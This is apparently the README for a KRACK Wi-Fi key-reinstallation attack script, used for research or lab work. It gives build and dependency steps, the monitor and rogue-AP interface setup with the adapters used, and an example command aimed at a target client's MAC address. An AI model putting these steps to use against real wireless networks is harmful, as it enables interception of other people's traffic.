 This script is currently not actively supported. The documentation is also not complete.

Before running this script, you must compile hostapd. This only needs to be done once:

	  cd ../hostapd
	  cp defconfig .config
	  make -j 2
	  cd ../
	  ./build.sh

Then you can exece this script. See [our video](https://youtu.be/Oh4WURZoR98?t=47) for example commands.

## Prerequisties
intall the following dependencies on Kali Linux:
 ```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev macchanger pkg-config libssl-dev net-tools git sysfsutils pip
```
install the following python package:
```
pip install --user mitm_channel_based
pip install scapy==2.4.3
pip install pycryptodome
```
## Description
```
KRAckAttack(args.nic_real_mon, args.nic_rogue_ap, args.nic_rogue_mon, args.ssid, args.target, args.dump, args.continuous_csa)
```
- nic_real_mon: nic_real, nic_real_clientack
- nic_rogue_ap: nic_rogue_ap
- nic_rogue_mon: nic_rogue_mon

krack-all-zero-tk.py KRAckAttack class confiure_interfaces()
define wifi interfaces ! (need modify this)
1. iw <nic_real> set type monitor
2. <nic_real_clientack> = <nic_real> + sta1
3. iw <nic_real> interface add <nic_real_clientack> type managed

4. (沒特別指定的話) <nic_rogue_mon> = <nic_rogue_ap> + mon
5. iw <nic_rogue_ap> interface add <nic_rogue_mon> type monitor
6. iw <nic_rogue_mon> set type monitor

nic_real_mon : MERCUSYS MW300UM
nic_rogue_ap : TP-Link TL-WN722N V2
nic_rogue_mon: TP-Link AC600

python3 ./krack-all-zero-tk.py <nic_real_mon> <nic_rogue_ap> testnetwork --nic-rogue-mon <nic_rogue_mon> --target 60:45:cb:01:ce:4c